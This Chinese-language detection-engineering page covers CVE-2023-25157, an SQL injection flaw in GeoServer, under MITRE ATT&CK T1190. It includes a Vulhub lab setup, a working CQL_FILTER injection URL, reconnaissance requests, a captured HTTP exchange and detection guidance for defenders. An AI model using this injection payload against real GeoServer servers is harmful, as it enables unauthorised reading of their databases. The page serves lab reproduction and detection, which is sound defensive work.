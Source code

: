 # T1190-CVE-2023-25157-GeoServer OGC Filter SQL注入漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例
GeoServer 是OpenGIS Web服务器规范的J2EE实现，利用GeoServer可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

在版本2.22.1和2.21.4及以前，多个OGC表达式中均存在SQL注入漏洞。

参考链接：
- https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158
- https://github.com/advisories/GHSA-7g5f-wrx8-5ccf

## 检测日志

HTTP.log

## 测试复现

### 漏洞环境

FOFA: app = "GeoServer"

执行如下命令启动一个SeoServer 2.22.1：

```
docker-compose up -d
```
环境启动后，访问即可查看到GeoServer的首页。http://your-ip:8080/geoserver

## 漏洞复现

在利用漏洞前，需要目标服务器中存在类型是PostGIS的数据空间（datastore）和工作空间（workspace）。在Vulhub中，已经包含满足条件的工作空间，其信息如下：

- 工作区名称：vulhub
- 数据存储名称：pg
- 要素类型（表）名称：example
- 要素类型的属性之一：name

利用这些已知参数，发送如下URL即可触发SQL注入漏洞：

```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```

![test](1.png)

获取GeoServer中WFS服务的图层信息（包括支持的 WFS 版本、支持的数据格式、支持的查询方式、支持的空间参考系统等）

```
GET /geoserver/ows?service=WFS&version=1.0.0&request=GetCapabilities HTTP/1.1
```

获取某个图层的属性名称

```
GET /geoserver/wfs?request=DescribeFeatureType&version=2.0.0&service=WFS&outputFormat=application/json&typeName=图层名称 HTTP/1.1
```

## 测试留痕

```yml
GET /geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith(name%2C%27x%27%27)+%3D+true+and+1%3D(SELECT+CAST+((SELECT+version())+AS+integer))+--+%27)+%3D+true HTTP/1.1
Host: 192.168.101.129:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
X-Frame-Options: SAMEORIGIN
Content-Type: text/xml;charset=utf-8
Content-Encoding: gzip
Transfer-Encoding: chunked
Server: Jetty(9.4.48.v20220622)

<?xml version="1.0" ?>
<ServiceExceptionReport
   version="1.2.0"
   xmlns="http://www.opengis.net/ogc"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.opengis.net/ogc http://schemas.opengis.net/wfs/1.0.0/OGC-exception.xsd">
   <ServiceException>
      java.lang.RuntimeException: java.io.IOException
java.io.IOExceptionERROR: invalid input syntax for type integer: &quot;PostgreSQL 14.8 on x86_64-pc-linux-musl, compiled by gcc (Alpine 12.2.1_git20220924-r10) 12.2.1 20220924, 64-bit&quot;
</ServiceException></ServiceExceptionReport>
```

流量包见同目录下pcap文件。

## 检测规则/思路
对请求路径及返回内容进行重点关注。

研判分析要点：
- 请求方法GET
- 请求url路径及路径中是否包含SQL语句
- 状态码200，结合返回body信息，判断攻击是否成功。

辅助判断：上下文关联分析，是否存在获取GeoServer中WFS服务的图层信息、获取某个图层的属性名称等行为

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

GeoServer OGC Filter SQL注入漏洞（CVE-2023-25157）

<https://github.com/vulhub/vulhub/blob/master/geoserver/CVE-2023-25157/README.zh-cn.md>

GeoServer SQL注入漏洞复现（CVE-2023-25157）

<https://blog.csdn.net/qq_41904294/article/details/131117123>

GeoServer SQL 注入漏洞分析（CVE-2023-25157）

<https://www.freebuf.com/vuls/371011.html>
